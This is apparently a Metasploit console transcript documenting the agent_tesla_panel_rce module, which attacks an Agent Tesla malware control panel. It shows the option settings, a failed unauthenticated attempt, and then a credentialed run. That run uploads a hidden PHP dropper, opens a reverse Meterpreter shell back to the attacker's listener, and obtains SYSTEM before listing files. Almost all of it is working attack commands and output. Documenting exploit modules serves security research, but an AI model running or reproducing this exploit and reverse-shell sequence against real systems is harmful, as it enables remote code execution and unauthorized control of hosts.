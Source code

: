 ```
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LPORT 5566
LPORT => 5566
msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:5566
[!] Unauthenticated RCE can't be exploited, retry if you gain CnC credentials.
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:5566
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .RVfu.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:5566 -> 169.254.162.16:51840) at 2020-06-16 15:14:12 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 15:10:40 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 15:10:40 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 15:10:40 -0500  jsonp.php
```